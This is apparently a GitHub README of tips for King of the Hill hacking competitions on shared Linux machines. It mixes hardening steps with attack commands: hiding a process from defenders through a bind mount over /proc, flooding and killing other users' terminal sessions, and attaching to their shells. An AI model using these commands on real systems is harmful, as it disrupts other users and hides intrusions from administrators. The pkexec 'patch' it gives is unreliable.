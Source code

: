 # Shell vs Shell
## Linux techniques for shell vs shell in koth

Repository Creator
[![N|Solid](https://trackalerts.com/wp-content/uploads/2020/01/youtube.png)](https://youtube.com/c/MatheuZSecurity)

#### This repository aims to show techniques to be able to use in a shell x shell in koth
# Examples
### Hide your PTS
 if you have an opponent, and he is killing your session, you can become invisible in the machine, you can use this technique to hide on the machine, without needing a rootkit to hide

```
mount -o bind /tmp /proc/PID
```

there where it is written PID, you will put your PID there, for example you can use ps aux to get the PID of your PTS, and using this command you will be invisible, and your opponent will not be able to kill your session

## Fixing vulnerabilities

to protect the machine from other opponents it is very important to check if in /etc/sudoers any user is running some binary with root permission, for example

```
# User privilege specification
root ALL=(ALL=ALL) ALL
teste ALL=(root) SETENV:NOPASSWD: /usr/bin/git *, /usr/bin/chattr
test1 ALL=(root) NOPASSWD: /bin/su test1, /usr/bin/chattr
``` 
here you can see that user teste and teste1 has root permission on the git and su binary, to fix this just remove everything from the teste and teste1 there
```
root ALL=(ALL=ALL) ALL
```
and it will be like that, so there will be no way to climb privilege by su and git

## Protecting SSH
if any user changed the root password for example you can lock it so that it doesn't log in directly as root using ssh

> nano /etc/ssh/sshd_config

in this configuration, you will go to "PermitRootLogin" and
set it to "no"

> PermitRootLogin no

you can also put which users can connect to the server, for example if you are already malicious, you can create a user of your own and put root permissions, and define so that only you can connect to the server, but I recommend that you don't do that , do this only in private rooms with your friends.
> nano /etc/ssh/sshd_config

> AllowUsers user1 user2

## Change default SSH port

you can change the default ssh port and for example put it on a high port like 55999

> nano /etc/ssh/sshd_config

```
Include /etc/ssh/sshd_config.d/*.conf

Port 55999
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::

#HostKey /etc/ssh/ssh_host_rsa_key
#HostKey /etc/ssh/ssh_host_ecdsa_key
#HostKey /etc/ssh/ssh_host_ed25519_key
```
> service sshd restart 

#### You can also set a limit on the number of authentication attempts and it can help prevent brute force attacks

> sudo nano /etc/ssh/sshd_config

arrive at the option “#MaxAuthTries 0” remove the # , and change it to the desired value, for example 3 attempts

> MaxAuthTries 3

Then save and restart

> sudo systemctl restart sshd

#### You can also remove the private key and public key from users, for example
> rm /home/user1/.ssh/id_rsa

> rm /home/user1/.ssh/id_rsa.pub

#### You can also generate other ssh keys for the user

> ssh-keygen -t rsa

#### Many people use the recent vulnerability (Polkit) to escalate privileges, you can make it a bit more difficult by patching it.

> chmod 0755 /usr/bin/pkexec

## Chattr

in koth, it is forbidden to change the permission of binaries, for example give a chmod 700 /usr/bin/find, except chattr, the chattr binary that you can remove from the machine ( remove from the machine after you use: chattr +i king. txt), rm /usr/bin/chattr, so no one will be able to change the attributes of king.txt

- but if you have access to a koth box and you don't have chattr you can get a chattr binary from github and compile it on the machine and use

> wget https://raw.githubusercontent.com/posborne/linux-programming-interface-exercises/master/15-file-attributes/chattr.c

> gcc chattr.c -o chattr

> ./chattr +i king.txt

and so you can upload that binary on the koth machine, or even upload chattr.c on the machine and compile the binary, so you can use

#### if you're like me and you like to troll your opponents, here are some really cool things you can use to make fun of your friends

#### For you to know who is on the machine, just use the following commands.

> ps aux | grep pts

> who

> w

# Nyancat

> git clone https://github.com/klange/nyancat

> cd nyancat/src

> make

#### Sending Nyancat to machine

> python -m SimpleHTTPServer 80 # on your local machine

> wget http://yourip/nyancat # on the KOTH machine

> chmod +x nyancat

> ./nyancat > /dev/pts/# < here where is the # you will place the enemy

#### Breaking pts by sending spam from urandom

> cat /dev/urandom > /dev/pts/#

#### killing session of a user logged into ssh/system
> pkill -9 -t pts/#

#### breaking into the shell of users logged into SSH

you can use the following command to break into the shell of other logged in users

> script -f /dev/pts/#

## Note

Don't do anything wrong on the koth machines, please respect all the rules for everyone to have a great experience and a great game

https://docs.tryhackme.com/docs/koth/king-of-the-hill

# more content here soon!
